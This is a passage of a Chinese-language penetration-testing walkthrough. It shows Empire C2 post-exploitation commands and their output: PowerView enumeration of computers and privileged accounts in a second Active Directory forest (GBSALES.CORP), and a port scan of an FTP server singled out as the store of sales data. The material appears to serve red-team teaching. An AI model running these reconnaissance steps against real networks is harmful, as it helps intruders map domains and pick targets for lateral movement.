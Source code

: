 ```
Domain : GBSALES.CORP
IPAddress : 10.30.30.89
[…]
```

与 GBSHOP 相比，域控制器还多，正如您所看到的，此域确实位于不同的林 （GBSALES.CORP）。如果不是这样，我们可以使用来自GBSHOP的krbtgt帐户！

让我们揪出域中注册的每个Windows主机，以了解此新目标的大小：
```
(Empire: DCshop) > usemodule
situational_awareness/network/powerview/get_computer
(Empire: get_computer) > set Domain GBSALES.CORP
(Empire: get_computer) > execute
Job started: Debug32_5u89t
SL0009.GBSALES.CORP
SL0010.GBSALES.CORP
SL0011.GBSALES.CORP
SL0012.GBSALES.CORP
[…]
SL0088.GBSALES.CORP
SL0089.GBSALES.CORP
SL0090.GBSALES.CORP
[…]
SL0210.GBSALES.CORP
Get-NetComputer completed!
```

与只有几台服务器的 GBSHOP 相比，GBSales 处于另一个级别。计算机对象的最终计数是 350！

您可能已经注意到在这些名称中的与众不同的，SL0210（10.30.30.210）FTP服务器是所有销售数据的集线器，我们从前面的脚本中了解到。

对这个服务器的一个快速端口扫描结果显示，我们可以直接从DC将它作为目标。无需在GBSALES域控制器上生成反向代理：
```
(Empire: DCshop) > usemodule situational_awareness/network/portscan
(Empire: portscan) > set Ports 135
(Empire: portscan) > set Hosts SL0210.GBSALES.CORP
(Empire: portscan) > execute
Job started: Debug32_hp38u
Hostname OpenPorts
-------- ---------
SL0210.GBSALES.CORP 135
```


完美！如果我们以某种方式获得 GBSALES 域的特权凭据，我们知道我们可以在这个宝贵的服务器上跳转！

让我们继续我们的侦察过程，并在GBSALES中列出域管理帐户：
```
(Empire: DCshop) > usemodule
situational_awareness/network/powerview/get_user
(Empire: get_user) > set Filter adminCount=1
(Empire: get_user) > set Domain GBSALES.CORP
(Empire: get_user) > execute
Job started: Debug32_qa90a
distinguishedname : CN=Administrator,CN=Users,DC=GBSALES,DC=CORP
name : Administrator
objectsid : S-1-5-21-2376009117-2296651833-4279148973-500
admincount : 1
distinguishedname : CN=joe_adm,CN=Users,DC=GBSALES,DC=CORP
name : joe_adm
objectsid : S-1-5-21-2376009117-2296651833-4279148973-1116
admincount : 1
distinguishedname : CN=phoebe_adm,CN=Users,DC=GBSALES,DC=CORP
name : phoebe_adm
objectsid : S-1-5-21-2376009117-2296651833-4279148973-1121
admincount : 1
distinguishedname : CN=sysback,CN=Users,DC=GBSALES,DC=CORP
name : Sysback
```